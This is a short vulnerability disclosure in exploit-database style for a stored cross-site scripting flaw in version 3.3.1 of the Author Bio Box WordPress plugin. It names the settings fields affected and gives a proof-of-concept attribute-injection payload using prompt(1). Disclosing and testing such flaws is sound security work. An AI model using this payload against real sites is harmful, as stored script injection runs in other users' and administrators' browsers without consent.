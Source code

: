 # Exploit Title: WrodPress Plugin Author Bio Box —— Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/author-bio-box/
# Version :  V 3.3.1
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. Settings》Author Bio Box》Gravatar size and Border size,insert the xss payload "OnMoUsEoVeR=prompt(1)//
![image](https://github.com/BigTiger2020/word-press/blob/main/Author%20Bio%20Boxgif.gif)  
